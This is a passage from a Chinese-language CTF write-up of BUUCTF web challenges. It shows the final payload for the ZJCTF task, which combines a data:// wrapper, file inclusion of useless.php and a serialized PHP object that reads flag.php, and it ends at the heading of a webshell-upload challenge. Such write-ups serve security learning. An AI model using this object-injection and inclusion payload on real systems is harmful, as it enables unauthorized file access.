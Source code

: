```php
$b = serialize($a);
echo $b; 
?>  
```

运行上面代码拿到序列化后的字符串: 这也就是参数`password`所需的值

<img src="/images/buuctf-web/image-20221016231639955.png" alt="image-20221016231639955" style="zoom:67%;" />

最后构造最终的`payload`: 别忘了利用`file`参数来包含`useless.php`

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

查看源码得到flag:

<img src="/images/buuctf-web/image-20221016231844331-166704781973570.png" alt="image-20221016231844331" style="zoom:67%;" />



<br>

***

<br>

# [MRCTF2020]你传你🐎呢
